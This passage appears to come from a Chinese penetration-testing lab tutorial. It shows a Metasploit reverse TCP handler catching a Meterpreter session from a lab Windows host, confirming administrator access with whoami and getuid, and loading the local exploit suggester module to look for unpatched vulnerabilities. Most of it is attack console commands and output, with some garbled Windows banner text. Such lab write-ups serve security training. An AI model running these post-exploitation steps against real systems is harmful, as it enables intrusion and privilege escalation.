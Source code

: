 复制代码

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.69.1:4444 

[*] Sending stage (176195 bytes) to 192.168.69.143

[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.143:32552) at 2021-01-24 20:55:13 +080

meterpreter > shell

Process 2364 created.

Channel 1 created.

Microsoft Windows [�汾 6.1.7601]

��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Users\Administrator\Desktop>whoami

whoami

god\administrator

C:\Users\Administrator\Desktop>exit

exit

meterpreter > getuid

Server username: GOD\Administrator

meterpreter > background

[*] Backgrounding session 1...
```

利用 post/multi/recon/local_exploit_suggester 模块去获取系统的未修复的漏洞，同时 metasploit 还有对应利用模块的漏洞：

复制代码

```
msf5 post(windows/gather/enum_patches) > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 1

session => 1

msf5 post(multi/recon/local_exploit_suggester) > exploit
```
